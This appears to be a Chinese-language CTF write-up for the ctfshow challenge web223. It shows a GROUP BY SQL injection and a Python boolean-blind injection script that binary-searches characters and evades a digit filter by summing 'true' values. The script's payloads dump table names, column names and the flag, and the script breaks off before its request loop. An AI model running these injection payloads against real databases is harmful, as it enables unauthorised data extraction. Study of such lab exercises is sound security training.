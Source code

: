 



#### web223

```php
查询语句

  //分页查询
  $sql = select * from ctfshow_user group by $username;
      
返回逻辑

//TODO:很安全，不需要过滤
//用户名不能是数字
```

这题ban掉了数字

用true来构造出数字即可

这题一开始我想用时间盲注的，但是跑不出来，后面直接拿y4✌的布尔盲注跑了

如下

```python
import requests
import time
url = "http://14dc1900-f046-44e8-bfa2-e93fbc2a32b3.challenge.ctf.show/api/?u="
result = ""
i = 0

def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        
        # 查数据库-ctfshow_flagas
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段-flagasabc
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
        # 查flag
        payload = "select flagasabc from ctfshow_flagas"


        params = {
            # "u": f"if(ascii(substr(({payload}),{createNum(i)},{createNum(1)}))>{createNum(mid)},sleep(true),true)"  #时间盲注 （我没跑出来，不知道为啥
            "u": f"if(ascii(substr(({payload}),{createNum(i)},{createNum(1)}))>{createNum(mid)},username,'a')" #布尔盲注
        }
```